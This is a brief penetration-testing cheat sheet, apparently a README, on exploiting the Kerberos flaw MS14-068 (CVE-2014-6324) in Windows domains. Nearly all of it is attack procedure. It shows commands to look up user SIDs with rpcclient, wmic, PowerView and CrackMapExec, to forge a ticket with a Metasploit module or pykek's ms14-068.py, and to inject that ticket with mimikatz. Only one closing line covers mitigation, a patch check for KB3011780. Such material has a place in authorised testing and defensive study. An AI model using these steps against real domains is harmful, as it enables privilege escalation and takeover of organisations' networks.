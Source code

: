 # Kerberos Checksum Vulnerability MS14-068 CVE-2014-6324

## Steps:

###  1: This exploit require to know the user SID, you can use rpcclient to remotely get it or wmi if you have an access on the machine.

## 1) RPCClient

    rpcclient $> lookupnames john.smith

## 2) WMI

    wmic useraccount get name,sid

## 3) Powerview

    Convert-NameToSid high-sec-corp.localkrbtgt

## 4) CrackMapExec

    crackmapexec ldap DC1.lab.local -u username -p password -k --get-sid

### 2: Generate a ticket with metasploit or pykek

## 1) Metasploit

    Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum

## 2) Python Kerberos Exploitation Kit (pykek)

    $ python ./ms14-068.py -u USERNAME@DOMAIN_NAME -s USER_SID  (-p PASS) -d DOMAIN_CONTROLLER_ADDRESS
 

### 3: Then use mimikatz to load ticket

    mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"

## Mitigations

### Ensure the DCPromo process includes a patch QA step before running DCPromo that checks for installation of KB3011780. The quick and easy way to perform this check is with PowerShell: get-hotfix 3011780

